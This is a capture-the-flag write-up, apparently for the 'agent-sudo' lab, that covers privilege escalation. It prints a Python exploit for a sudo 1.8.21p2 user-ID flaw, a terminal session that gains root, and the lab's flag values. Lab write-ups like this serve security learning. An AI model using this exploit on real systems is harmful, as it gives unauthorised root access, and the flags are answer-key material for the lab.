 -----------------------------------------------------------------------------
# Privilege-Escalation



![](attachments/Pasted%20image%2020250409141345.png)

![](attachments/Pasted%20image%2020250409142104.png)

### Exploit Used

- Sudo version 1.8.21p2 (exploitDB) the link is in the #reference section below

```python
#!/usr/bin/python3

import os

#Get current username
username = input("Enter current username :")
#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")
binary_file = open("binary")
binary= binary_file.read()
#execute sudo exploit
print("Lets hope it works")
os.system("sudo -u#-1 "+ binary)            
```

Upon creating the `exploit.py` file on the target system, We gave it an execute permission so that we can run the script and if we are lucky, we'll be root in no seconds. Easssssyyyy right? Ptsssss!! `chmod +x exploit.py` 

```sh
james@agent-sudo:~$ python3 exploit.py 
Enter current username :james
[sudo] password for james: 
Lets hope it works
root@agent-sudo:~# whoami;id
root
uid=0(root) gid=1000(james) groups=1000(james)
root@agent-sudo:~# 


```
-----------------------------------------------------------------------------
# Flags Obtained

| user flag                          | root flag                          |
| ---------------------------------- | ---------------------------------- |
| `b03d975e8c92a7c04146cfa7a5a313c7` | `b53a02f55b57d4439e3341834d70c062` |
